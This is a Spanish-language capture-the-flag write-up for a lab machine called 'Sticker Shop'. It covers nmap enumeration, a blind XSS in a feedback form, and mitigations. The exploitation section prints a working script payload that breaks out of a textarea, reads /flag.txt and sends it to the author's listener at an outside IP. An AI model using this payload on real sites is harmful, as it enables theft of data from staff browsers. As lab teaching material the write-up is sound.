

# Sticker Shop — Writeup

## Resumen

Máquina de dificultad fácil centrada en una auditoría a una tienda online de pegatinas. El objetivo es explotar un blind XSS en el formulario de feedback para conseguir la flag, alojada en el mismo servidor en `/flag.txt`.

## Enumeración

Comienzo con un ping para confirmar que la máquina responde y, a partir del TTL, estimar el sistema operativo:

```bash
ping -c 1 <vmip>
```

```
64 bytes from 10.128.187.187: icmp_seq=1 ttl=62 time=30.0 ms
```

Un TTL cercano a 64 sugiere un host Linux.

Continuo con un escaneo completo de puertos con nmap:

```bash
nmap -sVC -p- --min-rate 5000 <vmip> -oG nmap
```

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 bf:e7:c6:58:84:5d:23:68:ea:0a:6c:d0:26:ec:2b:18 (RSA)
|   256 3c:c3:7e:98:71:d5:8e:02:d5:a2:58:2b:1b:43:16:5e (ECDSA)
|_  256 14:08:43:ee:10:48:82:cd:f4:3e:0d:39:91:70:11:75 (ED25519)
8080/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.8.10)
|_http-title: Cat Sticker Shop
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Puertos abiertos:**

|Puerto|Servicio|
|---|---|
|22/tcp|SSH (OpenSSH 8.2p1)|
|8080/tcp|HTTP (Werkzeug/Python 3.8.10)|

Descarto el puerto 22 como vía de entrada inicial, ya que no hay credenciales conocidas en este punto, y centro el análisis en el servicio web del puerto 8080 (Werkzeug), que es el único que expone superficie de ataque sin autenticación previa.

## Análisis puerto 8080

Al navegar a la web se trata de una tienda de pegatinas. Dentro de la página hay un apartado de feedback donde los clientes pueden dejar un mensaje para la tienda. Al enviar un comentario, la aplicación responde indicando que el mensaje será revisado próximamente por el personal esto es un indicio de un blind XSS.



## Explotación

El enunciado indica que toda la infraestructura de la empresa está alojada en el mismo servidor, y que el objetivo es leer `http://<vmip>:8080/flag.txt`. Con esto claro, construyo un payload que:

1. Cierra el `<textarea>` en el que se inserta el feedback, para que el navegador interprete lo siguiente como HTML/JS en lugar de texto plano dentro del campo.
2. Hace un `fetch` a `flag.t``xt` desde el propio origen del servidor (`127.0.0.1:8080`), aprovechando que el script se ejecutará en el navegador de quien revise el feedback.
3. Exfiltra el contenido leído hacia un servidor controlado por mí, codificándolo como parámetro GET.

Primero levanto un servidor HTTP local para recibir la exfiltración:

```bash
python3 -m http.server 8000
```

Y envío el siguiente payload en el formulario de feedback:

```html
</textarea><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://192.168.146.38:8000/?flag=' + encodeURIComponent(data));
    });
</script>
```

Y al cabo de un tiempo llega la peticion GET con la flag.

![!\[\[Pasted image 20261111190557.png\]\]](Imagenes/flag.png)

## Flujo de ataque

1. **Enumeración:** nmap revela un servicio Werkzeug en el puerto 8080 y SSH en el 22; se descarta SSH por falta de credenciales y se centra el análisis en el servicio web.
2. **Análisis puerto 8080:** se identifica un formulario de feedback cuyo contenido será revisado por el staff —indicio de un posible blind XSS.
3. **Explotación:** se envía un payload que cierra el `<textarea>` e inyecta un script que lee `flag.txt` desde localhost y lo exfiltra a un servidor propio.

## Mitigaciones

- **Sanitizar/escapar el input del formulario de feedback** antes de almacenarlo o renderizarlo en cualquier panel interno: escapar caracteres como `<`, `>` y comillas, o usar una librería de sanitización de HTML en lugar de insertar el texto tal cual.
- **No exponer archivos sensibles como `flag.txt`** en una ruta accesible desde el mismo origen que sirve contenido no confiable; separar por origen o restringir el acceso a nivel de red.